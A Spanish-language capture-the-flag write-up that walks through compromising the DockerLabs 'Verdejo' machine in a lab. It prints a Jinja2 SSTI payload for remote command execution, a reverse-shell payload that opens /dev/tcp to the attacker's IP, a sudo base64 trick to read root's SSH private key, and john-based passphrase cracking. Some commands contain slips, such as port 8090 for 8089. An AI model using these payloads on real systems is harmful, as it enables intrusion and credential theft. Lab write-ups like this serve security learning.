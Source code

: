 # [Verdejo](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh verdejo.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

<br>
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22**, **8089**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/30e4a4c2-66ec-4fc4-b850-c5ed66365f4d)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con la pagina por defecto de Apache2. Si intentamos hacer fuzzing no tendremos resultados.

<br>
<br>

## Página Web (Puerto 8089)

Al no tener exito en el puerto 80, probamos a intentar acceder al puerto **8089** de la siguiente forma: `172.17.0.2:8090`. Se puede observar un recuadro para poner cosas.  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3b7a51a4-0d27-438a-9213-e131dbfc6de2)

<br>

Lo primero que se me ocurre es ver si es vulnerable a `SSTI`, una manera de comprobarlo es poniendo lo suiguiente `{{7*7}}`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/818083c0-b051-47d7-ab90-2a7d84d4273b)

<br>

Como observamos es vulnerable a SSTI por lo que deberíamos hacer ahora es buscar un payload el cual nos permita ejecutar comando de forma remota (RCE), por ejemplo en este [repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection) encontramos un montón de payloads pero el que nos interesa a nosotros es el de **Jinja2** que sería algo así: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
<br> 

Al introducir lo anterior comprobamos que nos responde con lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bcd2caeb-371c-4878-8b66-09a1c52599d8)

<br>

Por lo que ahora nos mandaríamos una revshell. Este parte se puede hacer de muchas formas. <br>
Una de ellas sería ponernos en escucha con netcat, escribiendo en nuestra terminal `nc -nlvp 443`, y despues en el payload en vez de poner el comando `id`, nos mandaremos una revshell poniendo lo siguiente: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}` 

Es importante escapar las comillas simples ya que si no nos dará error.
<br>

Una vez mandada la revshell podemos ver que todo ha ido bien: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4e8a35d2-6b8c-496f-a88b-d53638c9a03e)

<br>
<br>

## Escala de Privilegios

Antes de empezar a probar como escalar privlegios haremos un sencillo tratamiento de la tty poniendo en orden lo suiguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Una vez hecho el Tratamiento de la tty, podemos comenzar con la escala escribimos `sudo -l` vemos
que es posible ejecutar base64 como root sin proporcionar contraseña. <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bf198297-b8dd-4df1-947c-bc992e8b1dca)

<br>

Entonces mirando en [GTFOBins](https://gtfobins.github.io/) podemos ver que nos permite File Read poniendo lo siguiente -> `sudo base64 "file_to_read" | base64 --decode`. Entonces como recordamos que tiene el puerto 22 abierto es decir el ssh, podemos pobrar a leer la id_rsa del root que sería de la siguiente forma -> `sudo -u root /root/.ssh/id_rsa | base64 --decode`, por lo que visualizaríamos la **id_rsa** del root y nos la copiamos en un archivo en nuestro directorio de trabajo.

<br>
<br>

## JhonTheRipper

Una vez que tenemos la id_rsa si probamos a intentar logear como root a través del ssh de la siguiente forma -> `ssh -i id_rsa root@172.17.0.2`, nos pedirá una passphare la cual no tenemos por lo que pasaremos a crackear con JhonTheRipper. <br>

En primer lugar sacamos el hash de la id_rsa de la siguiente forma `ssh2john id_rsa > hash`, una vez que tenemos el hash pasamos a crackearlo para intentar sacar la passphare, lo haremos de la siguiente forma -> `john hash --wordlist=/usr/share/wordlist/rockyou.txt` y nos mostraría algo tal que así:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1c2569dd-4f3a-435f-a99e-6ab421bbbb89)

<br>

Una vez que conocemos la passphare probamos a auntenticarnos como lo intentamos antes -> `ssh -i id_rsa root@172.17.0.2`, y despues introducimos la passphare y listo ya somos root!.

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3ff97e38-6c17-4410-a79e-016f9fe3c597)

